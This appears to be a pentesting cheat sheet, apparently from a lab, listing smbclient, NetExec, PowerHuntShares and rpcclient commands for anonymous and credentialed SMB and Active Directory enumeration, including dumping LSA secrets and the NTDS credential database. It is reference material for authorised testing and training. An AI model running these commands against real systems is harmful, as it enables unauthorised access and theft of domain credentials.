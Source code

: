 ```bash
smbclient -L //corp-dc -N     #Anonymous Login (-N no credentials)
smbclient //corp-dc -U "dev-angelist.lab/devan%P@ssword123!"     #List Devan's shares
smbclient //corp-dc/SharedFiles -U devan
smbclient //corp-dc/SharedFiles -U "dev-angelist.lab/devan%P@ssword123!" #we can get file shared using get command
#File system prompt includes command such as: cd, dir, ls, get, put
```

#### **Netexec** <a href="#netexec" id="netexec"></a>

1.  **Enumerate Domain Machines for SMB Signing**

    ```bash
    nxc smb 192.168.1.0/24
    ```
2.  **Validate Credentials**

    ```bash
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123'
    ```
3.  **Find Valid Machines for Connection**

    ```bash
    nxc smb 192.168.1.0/24 -u 'jdoe' -p 'Password123'
    ```
4.  **Enumerate Shared Resources**

    ```bash
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123' --shares
    ```
5.  **Enumerate Users and Groups**

    ```bash
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123' --users
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123' --groups
    ```
6.  **Dump LSA and NTDS** If you have domain admin privileges:

    ```bash
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123' --lsa
    nxc smb 192.168.1.1 -u 'jdoe' -p 'Password123' --ntds
    ```

***

#### PowerHuntShares

```powershell
Import-Module C:\AD\Tools\PowerHuntShares.psm1
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools -HostList C:\AD\Tools\servers.txt
```

#### **RPCClient**

```bash
rpcclient -U "" -N <TARGET_IP>
## RPCCLIENT
enumdomusers
enumdomgroups
lookupnames admin
```
